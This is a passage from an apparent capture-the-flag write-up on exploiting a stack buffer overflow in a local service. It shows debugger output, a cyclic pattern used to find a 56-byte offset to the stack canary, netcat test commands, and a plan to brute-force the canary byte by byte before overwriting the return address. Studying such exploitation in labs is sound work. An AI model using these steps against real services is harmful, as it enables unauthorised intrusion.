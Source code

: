 Before reading my input, the end of the stack looks like:

```

gdb-peda$ x/3xg $rbp-8
0x7ffccfb6cbe8: 0x18bb289986192300      0x00007ffccfb6cc20
0x7ffccfb6cbf8: 0x000055d9d3d0d562

```

That’s the canary, then the `rbp` value from the previous frame, and the return address.

I’ll use `pattern_create` from peda to get 100 characters, and submit it to the program:

```

root@kali# echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL' | nc 127.0.0.1 1337                                                  
Please enter the message you want to send to admin:

```

Now I’ll run until just after the `recv`, and check out the same three locations:

```

gdb-peda$ x/3xg $rbp-8
0x7ffccfb6cbe8: 0x4841413241416341      0x4141334141644141
0x7ffccfb6cbf8: 0x4134414165414149

```

I’ll use `pattern_offset` to get the distance to the canary:

```

gdb-peda$ pattern_offset 0x4841413241416341
5206514328315978561 found at offset: 56

```

I can show this by sending 56 characters into the program (55 As and a `\n`), and getting “Done.”, but then sending 57 (56 As and a `\n`), and not:

```

root@kali# python -c 'print "A"*55' | nc 127.0.0.1 1337
Please enter the message you want to send to admin:
Done.
root@kali# python -c 'print "A"*56' | nc 127.0.0.1 1337
Please enter the message you want to send to admin:

```

#### Brute Force Canary

Now I can use this to brute force the canary value. I can send 256 requests, each with 56 bytes of junk and a unique 57th byte. That 57th byte will overwrite the low byte of the canary (which is always 00). The 255 non-zero requests will return no additional data, or an end of file if I try to read from the socket. The request with 56 bytes of junk + ‘0x00’ will return “Done.”. I can do that same for the next 7 bytes to get the full canary. Now I can overwrite the canary and continue on to overwrite the return address.
